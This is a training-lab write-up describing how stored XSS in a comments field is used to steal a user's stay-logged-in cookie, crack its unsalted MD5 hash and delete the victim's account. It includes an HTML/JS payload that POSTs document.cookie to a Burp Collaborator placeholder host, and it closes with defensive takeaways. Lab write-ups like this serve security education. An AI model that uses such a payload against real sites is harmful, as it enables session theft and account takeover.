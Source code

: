 # LAB: Offline password craingck

## Given:

- Target website stores user passwords as hashes.
- The lab contains an XSS vulnerability in the comments section.
- Credentials provided for `wiener: peter`.
- Target username: `carlos`.

## Objective:

- Obtain the `stay-logged-in` cookie of the target user `carlos`.
- Delete the account of user `carlos`.

## Key Concepts:

- XSS can be used to exfiltrate cookies and session data from other users.
- Persistent login cookies (`stay-logged-in`) may contain sensitive information, such as hashed passwords.
- Weak hashing (e.g., unsalted MD5) makes offline password cracking feasible.

## Steps Taken:

1. Proxy browser traffic through Burp Suite to intercept and analyze requests.
2. Log in with `wiener: peter` and explore the application, noting `/my-account` and the account deletion feature.
3. Observe that deleting an account requires entering the user's password for confirmation.
4. Use Burp Collaborator to generate a unique link for exfiltration.
5. Identify the XSS vulnerability in the comments section (textarea field).
6. Inject the following payload to exfiltrate cookies:
   ```html
   </textarea><script>
   fetch("https://<burp-collaborator-link>", {
     method: "POST",
     body: document.cookie,
     mode: "no-cors"
   })
   </script>
   ```
7. Submit the comment and monitor Burp Collaborator for incoming requests from other users.

   ![](./Images/collaborator%20got%20the%20fetch%20request%20from%20target%20user%20session.png)

8. When a request arrives, extract the session and `stay-logged-in` cookie values for the target user (`carlos`).
9. Decode the `stay-logged-in` cookie (often Base64 encoded). Format is typically `carlos:<hashed_value>`.

   ![](./Images/decoded%20the%20base64%20stay-logged-in%20cookie.png)

10. Attempt to crack the hash using online databases or hash-cracking tools (MD5 in this case).

    ![](./Images/decrypted%20the%20password%20.png)

11. Use the cracked password to log in as `carlos`.

    ![](./Images/access%20carlos%20my-account%20page%20using%20his%20stay-logged-in%20cookie.png)

12. Navigate to the account deletion page and enter the cracked password to delete the account.

    ![](./Images/Delete%20the%20account.png)

## Payloads Used:

| Payload # | Purpose                    | Example/Usage                                   |
| --------- | -------------------------- | ----------------------------------------------- |
| 1         | Exfiltrate cookies via XSS | See above HTML/JS payload for Burp Collaborator |

## Issues Encountered:

- Ensuring the XSS payload executed for the target user.
- Decoding and cracking the hash format of the cookie value.

## Solutions/Workarounds:

- Use Burp Collaborator to confirm exfiltration.
- Try multiple hash algorithms and online databases for cracking.

## Takeaways:

- XSS vulnerabilities can be leveraged to steal sensitive cookies and session data.
- Persistent cookies like `stay-logged-in` are a prime target for attackers.
- Weak or predictable cookie formats (e.g., unsalted MD5) are easily cracked offline.
- Always use strong, salted hashes for sensitive data.
- Account management features (like deletion) should require robust authentication.
- Regularly test for XSS and weak cookie management in web applications.
